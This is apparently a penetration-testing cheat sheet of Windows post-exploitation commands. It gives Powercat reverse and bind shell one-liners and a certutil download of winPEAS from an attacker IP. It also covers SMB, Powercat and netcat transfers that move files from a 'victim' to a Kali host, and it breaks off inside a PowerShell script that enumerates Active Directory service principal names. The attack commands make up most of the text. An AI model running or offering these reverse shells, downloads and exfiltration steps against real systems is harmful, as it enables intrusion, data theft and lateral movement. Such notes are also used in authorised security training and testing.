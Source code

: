 ### Powercat

```
. .\powercat.ps1
powercat -c 10.11.0.4 -p 443 -e cmd.exe   # reverse shell
powercat -l -p 443 -e cmd.exe   # bind shell
```

### wget equivalant / file transfer

```
certutil.exe -f -urlcache -split http://192.168.49.157/winPEASany.exe

--------Windows to Linux (SMB)----------
Method 1: 
On kali: impacket-smbserver [SHARE NAME] $(pwd) -smb2support -user [USER ON KALI] -password [PASSWORD ON KALI]
On windows:
$pass = convertto-securestring '[PASSWORD ON KALI]' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('[USER ON KALI]', $pass)
New-PSDrive -NAME [USER] -PSProvider FileSystem -Credential $cred -Root \\[KALI IP]\[SHARE NAME]

Method 2:
on Kali : smbserver.py test ./share
smbserver.py [share_name] [folder_path]
# If failed, edit the smb conf file on kali:
# /etc/samba/smb.conf
# min protocol = SMB2

on Windows: copy proof.txt \\192.168.119.160\test\proof.txt
copy [file to transfer] \\[linux ip]\[share_name]\[output file name]

--------Windows to Linux (PowerCat)----------
on Linux: 
sudo nc -lnvp 443 > receiving_powercat.ps1

on Windows:
powercat -c 10.11.0.4 -p 443 -i C:\Users\admin\powercat.ps1

--------Using nc----------
on victim:
cat [filename] | nc [kali_ip] [port]

on kali:
nc -lnvp [port] > [output_file]
```

### enumSPN.ps1

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.filter = "serviceprincipalname=*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
	Foreach($prop in $obj.Properties)
	{
		$prop
```